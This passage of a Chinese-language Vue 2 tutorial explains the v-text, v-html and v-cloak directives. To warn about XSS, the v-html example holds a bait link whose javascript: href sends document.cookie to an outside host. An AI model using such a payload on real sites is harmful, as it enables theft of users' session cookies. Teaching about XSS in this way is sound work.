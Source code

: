 ![v-text](https://raw.githubusercontent.com/weixiaoyun/Images/vue2/v-text.png)

### 2.v-html

- 作用：向指定节点中渲染包含html结构的内容。
- 与插值语法的区别：
  - v-html会替换掉节点中所有的内容，{{xx}}则不会。
  - v-html可以识别html结构。
- 严重注意：v-html有安全性问题！！！！
  - 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
  - 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```
    <!-- 准备好一个容器-->
   <div id="root">
      <div>你好，{{name}}</div>
      <div v-html="str"></div>
      <div v-html="str2"></div>
   </div>
</body>

<script type="text/javascript">
   Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

   new Vue({
      el:'#root',
      data:{
         name:'vue',
         str:'<h3>你好啊！</h3>',
         str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
      }
   })
</script>
```

![v-html](https://raw.githubusercontent.com/weixiaoyun/Images/vue2/v-html.png)

### 3.v-cloak

- 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
- 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```
<style>
   [v-cloak]{
      display:none;
   }
</style>
```

```
    <!-- 准备好一个容器-->
   <div id="root">
      <h2 v-cloak>{{name}}</h2>
   </div>
   <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>

<script type="text/javascript">
   console.log(1)
   Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
   
   new Vue({
      el:'#root',
      data:{
```